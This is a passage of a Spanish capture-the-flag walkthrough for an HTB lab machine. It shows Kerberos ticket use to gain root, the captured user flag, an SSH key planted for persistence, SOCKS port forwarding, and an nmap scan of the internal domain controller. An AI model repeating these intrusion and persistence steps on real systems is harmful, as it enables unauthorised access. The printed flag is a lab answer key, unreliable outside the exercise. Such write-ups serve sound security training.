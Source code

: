 Genero un TGT para este usuario

```null
webster@webserver:~$ kinit ray.duncan
Password for ray.duncan@WINDCORP.HTB: 
```

Me convierto en ```root```

```null
Authenticated ray.duncan@WINDCORP.HTB
Account root: authorization for ray.duncan@WINDCORP.HTB successful
Changing uid to root (0)
root@webserver:/home/webster# 
```

Puedo ver la primera flag

```null
root@webserver:~# cat user.txt 
af0881317ddefd0af409b5cd4cd149d6
```

Para poder conectarme posteriormente por SSH, añado mi clave pública a las ```authorized_keys```. Aplico un Dinamic Port Forwarding para tener conectividad con la ```192.168.0.2```

```null
ssh root@10.10.11.179 -D 1080
Linux webserver 5.10.0-17-amd64 #1 SMP Debian 5.10.136-1 (2022-08-13) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Apr  3 16:44:42 2023 from hope.windcorp.htb
root@webserver:~#
```

# Escalada

Escaneo los puertos del DC a través del contenedor

```null
root@webserver:/tmp# ./nmap -p- --open --min-rate 5000 -n -Pn -sS 192.168.0.2

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-04-03 16:48 CEST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 192.168.0.2
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00057s latency).
Not shown: 65519 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd
636/tcp   open  ldaps
3268/tcp  open  unknown
3269/tcp  open  unknown
5985/tcp  open  unknown
9389/tcp  open  unknown
49664/tcp open  unknown
```